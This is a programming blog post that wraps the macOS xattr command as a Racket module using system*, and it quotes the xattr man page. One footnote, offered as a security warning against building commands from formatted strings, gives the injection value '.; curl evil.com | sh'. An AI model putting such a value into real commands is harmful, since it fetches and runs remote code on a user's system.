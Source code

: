 ```yaml
---
title: Wrapping xattr as a racket module
date: 2020-01-29
programming/topics:
- Filesystems
programming/languages:
- Racket
---
```

I recently came across a question: how do you read {{< wikipedia "extended file attributes" >}} in Racket. Not being actually that familiar with extended file attributes, I searched online. Nothing seems to currently exist (other than <a href="https://docs.racket-lang.org/fuse/index.html#%28def._%28%28lib._fuse%2Fmain..rkt%29._setxattr%29%29">in the FUSE module, but that's specific to FUSE</a>), but there is a system level exectuable that one could wrap to do this. I haven't done <i>much</i>[^much] with Racket's {{< doc racket "system" >}} or {{< doc racket "system*" >}} function before, so let's give it a whirl.

<!--more-->

First (and doing most of the work), let's take a look at the `xattr` function's {{< wikipedia "man page" >}}:

<pre style="overflow-x: auto; white-space: pre-wrap; word-wrap: break-word;">
NAME
    xattr -- display and manipulate extended attributes

SYNOPSIS
    xattr [-lrsvx] file ...
    xattr -p [-lrsvx] attr_name file ...
    xattr -w [-rsx] attr_name attr_value file ...
    xattr -d [-rsv] attr_name file ...
    xattr -c [-rsv] file ...
    xattr -h | --help

DESCRIPTION
    The xattr command can be used to display, modify or remove the extended attributes of one or more files, including directories and symbolic links.  Extended attributes are arbitrary metadata stored with a file, but separate from the filesystem attributes (such as modification time or file size).  The metadata is often a null-terminated UTF-8 string, but can also be arbitrary binary data.

    One or more files may be specified on the command line.  For the first two forms of the command, when there are more than one file, the file name is displayed along with the actual results. When only one file is specified, the display of the file name is usually suppressed (unless the -v option described below, is also specified).

    In the first form of the command (without any other mode option specified), the names of all extended attributes are listed.  Attribute names can also be displayed using ``ls -l@''.

    In the second form, using the -p option (``print''), the value associated with the given attribute name is displayed.  Attribute values are usually displayed as strings.  However, if nils are detected in the data, the value is displayed in a hexadecimal representation.

    The third form, with the -w option (``write''), causes the given attribute name to be assigned the given value.

    The fourth form, with the -d option (``delete''), causes the given attribute name (and associated value), to be removed.

    In the fifth form, with the -c option (``clear''), causes all attributes (including their associated values), to be removed.
</pre>

So that is the functionality we will want to wrap. For my first attempt, we'll just read the values. 

```racket
> (define (xattr-list file)
    (system* (find-executable-path "xattr") file))

> (xattr-list "xattr.rkt")
com.apple.FinderInfo
com.apple.metadata:_kMDItemUserTags
```

As I did before, I could use `(system (format "xattr ~a" file))` but I've grown a lot as a developer with a focus on security since then. And one thing I've learned that can cause no end of trouble is using string formatting to build system commands. Just don't do it[^example]. In Racket, use {{< doc racket "system*" >}}. It will take each argument as a parameter and you don't have to worry about properly escaping things. 

A good start, but I really want a list. To do that, we'll need to capture the output from `system*` into a string. Luckily, Racket is good at that:

```racket
> (define (xattr-list file)
    (with-output-to-string
      (thunk
       (system* (find-executable-path "xattr") file))))

> (xattr-list "xattr.rkt")
"com.apple.FinderInfo\ncom.apple.metadata:_kMDItemUserTags\n"
```

And then to pull it apart:

```racket
> (define (xattr-list file)
    (string-split
     (with-output-to-string
       (thunk
        (system* (find-executable-path "xattr") file)))
     "\n"))

> (xattr-list "xattr.rkt")
'("com.apple.FinderInfo" "com.apple.metadata:_kMDItemUserTags")
```

Nice. 

That actually deals with the "\n" that's naturally at the end of the output--and that saw an example ago--properly, but we'll have to deal with that ourselves later.

Now, we copy this a number of time over and over for each of the functions, but that seems like a waste. Instead, let's abstract calling `xattr` in general:

```racket
(define xattr
  (let ([exe (find-executable-path "xattr")])
    (λ args
      (string-trim
       (with-output-to-string
         (thunk
          (apply system* (cons exe args))))
       "\n"
       #:left? #f
       #:right? #t
       #:repeat? #f))))
```

Here, I'm using two tricks. The `let` is within the `define`, so it can't be seen outside of the function, but it's also only evaluated once. Then `(λ args ...`, instead of the more common `(λ (args) ...` means that all of the parameters will be put together into a list. 

Then, deep into the function, we add the function executable and {{< doc racket "apply" >}} `system*` to it in order to deal with arbitrarily many arguments, much the same way `system*` itself does. 

Using this, we can directly replicate the `xattr-list` function:

```racket
> (xattr "xattr.rkt")
"com.apple.FinderInfo\ncom.apple.metadata:_kMDItemUserTags"

> (string-split (xattr "xattr.rkt"))
'("com.apple.FinderInfo" "com.apple.metadata:_kMDItemUserTags")
```

And that's all we'd need. But if we want to make it a bit easier/cleaner, we can wrap the various xattr functions ourselves:

```racket
(define (xattr-list file) (string-split (xattr file) "\n"))
(define (xattr-read file key) (xattr "-p" key file))
(define (xattr-write file key value) (xattr "-w" key value file))
(define (xattr-delete file key) (xattr "-d" key file))
(define (xattr-clear file) (xattr "-c" file))
```

And one more helper just in case we want to read all the keys and values into a nice {{< doc racket "hash" >}}:

```racket
(define (xattr-read-all file)
  (for/hash ([key (in-list (xattr-list file))])
    (values key (xattr-read file key))))
```

Then we can test it:

```racket
> (xattr-list "xattr.rkt")
'("com.apple.FinderInfo" "com.apple.metadata:_kMDItemUserTags")

> (xattr-write "xattr.rkt" "hello" "world")
""

> (xattr-read "xattr.rkt" "hello")
"world"

> (xattr-read-all "xattr.rkt")
'#hash(("com.apple.FinderInfo" . "...")
       ("com.apple.metadata:_kMDItemUserTags" . "...")
       ("hello" . "world"))
```

Nice.

If you want the full source, you can find it on GitHub: [xattr.rkt](https://github.com/jpverkamp/small-projects/blob/master/racket-libraries/xattr.rkt)

[^much]: Although I did in [Graph Coloring]({{< ref "2014-01-15-graph-coloring.md" >}}) and [Phone Networks]({{< ref "2014-05-21-phone-networks.md" >}}) to access GraphViz and [iOS Backup Apps]({{< ref "2015-01-29-ios-backup-apps.md" >}}) to handle parsing binary plists with `plutil`, it's been a while.

[^example]: What if the `file` was `.; curl evil.com | sh`? The command to run would end up `xattr .; curl evil.com | sh` which, as you might imagine, could do all sorts of fun things to your system.